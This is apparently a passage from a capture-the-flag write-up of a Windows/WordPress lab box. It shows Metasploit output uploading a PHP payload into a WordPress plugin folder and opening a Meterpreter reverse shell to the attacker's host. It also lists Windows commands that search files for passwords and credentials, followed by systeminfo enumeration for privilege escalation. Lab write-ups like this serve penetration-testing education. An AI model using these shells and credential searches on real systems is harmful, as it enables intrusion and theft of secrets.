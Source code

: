```cli
[*] Uploading payload...
[*] Executing the payload at /wordpress/wp-content/plugins/PFXsVTyXHh/YeJNgFxBmR.php...
[*] Sending stage (39282 bytes) to 10.10.10.29
[+] Deleted YeJNgFxBmR.php
[+] Deleted PFXsVTyXHh.php
[*] Meterpreter session 1 opened (10.10.14.47:4444 -> 10.10.10.29:50156) at 2021-07-30 20:10:02 -0400
[!] This exploit may require manual cleanup of '../PFXsVTyXHh' on the target

meterpreter > 
```

Now we have a Meterpreter shell.

There is no user.txt on this box, so we need to get Administrator access to get the flag.

### Privilege Escalation

In Windows, from what I can tell at this point, most priv esc is done through exploits.  We can search around for passwords with these commands:

```
# List all env variables
set
Get-ChildItem Env: | ft Key,Value

# Search for passwords
cd C:\ & findstr /SI /M "password" *.xml *.ini *.txt
findstr /si password *.xml *.ini *.txt *.config
findstr /spin "password" *.*

# search for interesting files
dir /S /B *pass*.txt == *pass*.xml == *pass*.ini == *cred* == *vnc* == *.config*
where /R C:\ user.txt
where /R C:\ *.ini
```

But on this box, none of this reveals anything interesting.  

So we grab systeminfo and see if we can find anything with "Windows Exploit Suggester"

```shell
meterpreter > execute -f powershell -a '"systeminfo > outfile"'
Process 5096 created.
meterpreter > cat outfile
��
Host Name:                 SHIELD
OS Name:                   Microsoft Windows Server 2016 Standard
OS Version:                10.0.14393 N/A Build 14393
OS Manufacturer:           Microsoft Corporation
OS Configuration:          Member Server
OS Build Type:             Multiprocessor Free
Registered Owner:          Windows User
Registered Organization:   
Product ID:                00376-30000-00299-AA303
Original Install Date:     2/4/2020, 12:58:01 PM
System Boot Time:          8/1/2021, 2:49:58 PM
System Manufacturer:       VMware, Inc.
System Model:              VMware7,1
System Type:               x64-based PC
Processor(s):              1 Processor(s) Installed.
                           [01]: AMD64 Family 23 Model 1 Stepping 2 AuthenticAMD ~2000 Mhz
BIOS Version:              VMware, Inc. VMW71.00V.13989454.B64.1906190538, 6/19/2019
Windows Directory:         C:\Windows
System Directory:          C:\Windows\system32
Boot Device:               \Device\HarddiskVolume2
```